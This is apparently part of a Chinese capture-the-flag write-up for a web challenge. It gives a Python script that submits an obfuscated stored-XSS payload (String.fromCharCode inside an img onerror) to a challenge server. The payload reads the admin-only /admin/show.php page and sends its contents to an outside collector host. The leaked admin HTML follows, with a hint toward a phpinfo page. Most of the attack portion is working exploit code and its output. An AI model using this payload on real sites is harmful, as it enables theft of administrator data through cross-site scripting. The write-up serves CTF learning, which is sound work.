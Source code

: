 ```
```
这里注意\会被转义，所以要传入\\才是一个
先写个脚本生成message(拖个朋友的上来，直接post出去):
```
#!/bin/env python
#-*- encoding: utf-8 -*-

import os
import requests
import random
import string

def post(s,u,m):
	r = requests.session()
	if len(u) < 1:
		u = 'debug'
	_data = {
		"secret":s,
		"username":u,
		"message":m,
		"action":"submit"
	}
	res = r.post("http://202.120.7.201:8888/message.php", data=_data)
	return res.url

def rstr(n=10):
	return string.join(random.sample(['z','y','x','w','v','u','t','s','r','q','p','o','n','m','l','k','j','i','h','g','f','e','d','c','b','a'], n)).replace(' ','')

def m2s(m):
	r = ''
	for x in m:
		r += ','+str(x)
	return r[1:]

if __name__ == '__main__':
	s = '<script>var debug=false;</script>'
	payload = 'xmlhttp=new XMLHttpRequest();xmlhttp.open("GET","/admin/show.php",false);xmlhttp.send();r=xmlhttp.responseText;xmlhttp.responseText;xmlhttp.open("POST","http://xss.lazysheep.cc",false);xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");xmlhttp.send("vv="+escape(r));'
	l = m2s(map(ord, payload))
	p2 = '\\\\x3cimg src=a onerror=\\\\u0022eval(String.fromCharCode(' + l + '))\\\\u0022\\\\x3e'
	print post(rstr()+s, 'debug', p2)
```
得到了一些东西：
```
<html> <!-- change log: use http-only cookie to prevent cookie stealing by xss, so flag is safe in cookie always check /admin/server_info.php for load balancing to do: files and folders permission control, disallow other users write file into uploads folder --> <body> <script>var debug=false;</script> <div id=""> <h2></h2> </div> <div id="text"></div> <script> data = "" t = document.getElementById("text") if(debug){ t.innerHTML=data }else{ t.innerText=data } </script> </body> </html>

```
他是说让我们去检查/admin/server_info.php这个文件。打开看是`phpinfo()`
